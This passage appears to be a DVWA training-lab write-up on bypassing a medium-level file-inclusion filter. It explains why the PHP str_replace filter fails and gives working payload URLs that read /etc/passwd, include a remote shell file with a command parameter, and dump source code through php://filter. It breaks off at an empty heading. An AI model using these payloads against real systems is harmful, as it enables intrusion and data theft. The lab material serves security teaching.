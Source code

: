 
## 🛡️ Medium Security Analysis

### 📌 Overview

Attempts to block LFI via `str_replace()`:

```php
$file = str_replace(array("http://", "https://"), "", $file);
$file = str_replace(array("../", "..\"), "", $file);
```

### 🔍 Bypass Techniques

- `..././` ➝ collapses to `../`
- `hthttp://tp://` ➝ becomes `http://`
- `php://filter` ➝ base64-encoded source code

### 🔒 Vulnerabilities Identified

| Vulnerability               | Problem Description                                                           |
|-----------------------------|-------------------------------------------------------------------------------|
| Incomplete Traversal Filter | Variants like `..././` are not matched by `../` filters                       |
| Protocol Obfuscation        | Bypasses with malformed `http://` strings                                     |
| Stream Wrappers             | No filtering of `php://`, `file://`, `data://`                                 |
| No Whitelisting             | Any file included if certain substrings avoided                               |
| No Extension Filtering      | Arbitrary file types can be loaded                                            |

---

## 2️⃣ Exploitation – Medium

### Payloads

✅ Traversal Bypass:
```
http://<target>/dvwa/vulnerabilities/fi/?page=..././..././etc/passwd
```

✅ RFI Obfuscation:
```
http://<target>/dvwa/vulnerabilities/fi/?page=hthttp://tp://127.0.0.1/shell.txt&cmd=id
```

✅ Source Code Disclosure:
```
http://<target>/dvwa/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=index.php
```

### 🎯 Indicators of Success
